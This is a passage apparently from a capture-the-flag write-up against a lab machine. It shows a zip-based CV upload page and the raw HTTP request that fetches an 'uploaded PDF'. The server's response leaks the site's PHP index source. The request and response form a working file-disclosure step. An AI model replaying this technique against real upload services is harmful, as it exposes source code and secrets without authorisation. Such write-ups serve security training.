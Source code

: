 ```
</head>
<body data-spy="scroll" data-target=".navbar" data-offset="40" id="home">
    <!-- Page Header -->
    <header class="header header-mini"> 
      <div class="header-title">Work with Us</div> 
      <nav aria-label="breadcrumb">
         <ol class="breadcrumb">
            <li class="breadcrumb-item"><a href="index.php">Home</a></li>
            <li class="breadcrumb-item active" aria-current="page">Work with Us</li>
         </ol>
      </nav>
    </header> <!-- End Of Page Header -->

    <section id="work" class="text-center">
        <!-- container -->
        <div class="container">
            <h1>WORK WITH US</h1>
            <p class="mb-5">If you are interested in working with us, do not hesitate to send us your curriculum.<br> The application will only accept zip files, inside them there must be a pdf file containing your curriculum.</p>

            <p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="uploads/4ade37ebac0fcbc357efc4939c4c80bb/cv1.pdf">uploads/4ade37ebac0fcbc357efc4939c4c80bb/cv1.pdf</a></p>
      <snipped>
```

Now if we follow that link we'd be able to read the contents of the index page of the webshop.

```
GET /uploads/4ade37ebac0fcbc357efc4939c4c80bb/cv1.pdf HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.229/upload.php
Cookie: PHPSESSID=73lml6dp7ndhvc7f29dn95el34
Upgrade-Insecure-Requests: 1
```

The server then issued the following response disclosing the shops index page

```
HTTP/1.1 200 OK
Date: Thu, 28 Dec 2023 23:33:45 GMT
Server: Apache/2.4.54 (Ubuntu)
Last-Modified: Thu, 28 Dec 2023 23:33:44 GMT
ETag: W/"197-60d9a58b98156"
Accept-Ranges: bytes
Content-Length: 407
Connection: close
Content-Type: application/pdf

<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
```